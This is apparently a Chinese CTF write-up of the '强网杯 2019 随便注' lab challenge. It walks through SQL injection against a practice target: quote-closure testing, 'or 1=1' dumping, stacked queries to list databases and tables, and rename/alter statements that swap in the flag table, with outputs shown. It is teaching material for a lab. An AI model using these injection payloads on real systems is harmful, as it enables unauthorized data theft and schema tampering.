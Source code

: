 ## [[强网杯 2019]随便注](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)



## 0x00 判断注入点



注入点为字符型注入



## 0x01 判断闭合



使用“	‘	” 测试闭合



```
1’
```



测试结果为



```sql
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```



发现闭合为“	‘'	”



## 0x02利用or查询出表中所有数据

## 

```sql
1' or 1=1 #
```



得到当前所有数据



```sql
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}
```



## 0x03查看数据库



```sql
1' ; select 1,2 from database#
```



发现目标过滤了关键字



```sql
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```



## 0x04使用堆叠注入



```sql
1' ; show databases#
```



发现注入有效，但是没有发现相关flag



```sql
array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
}

```



## 0x05继续利用show查询表名



```sql
1' ; show tables#
```



得到以下表名



```sql
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```



## 0x06使用show columns 接着查两个表中的信息



```sql
1' ; show columns from words#
1' ; show columns from `1919810931114514`#
```



得到结果为

```sql
words表

array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```



```sql
1919810931114514表

array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```



发现flag在数字表中



## 0x07使用堆叠注入修改表名列名



**猜测提交查询的窗口应该就是在words表里查询的，那么查询语句很有可能是 : select id,data from words where id =**

**因为可以堆叠查询，这时候就想到了一个改名的方法，把words随便改成words1，然后把1919810931114514改成words，再把列名flag改成id，结合上面的1' or 1=1#爆出表所有内容就可以查flag啦**



```sql
1';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#
```



修改成功



```sql
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```



## 0x08使用or语句，查询flag

```sql
1' or 1=1 #
```



## 0x09得到flag



```sql
array(1) {
  [0]=>
  string(42) "flag{81638220-7fd1-40d4-8178-3f130a2ae981}"
}

```



## 0x10补充



**在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符**

**eg. mysql> SELECT * FROM `table` WHERE `id` = '123' ;**

**1919810931114514必须用反单引号括起来，但是words不需要，应该是和数据类型有关**



#### [MySQL中的describe命令](https://blog.csdn.net/Jacksun_huang/article/details/88355296)

### 

#### [MySQL重命名表（RENAME TABLE语句）](https://blog.csdn.net/yiibai/article/details/52679865)







## 0x11**[还有其他方法](https://www.cnblogs.com/wjw-zm/p/12359735.html)**!!!



作者

SihUi
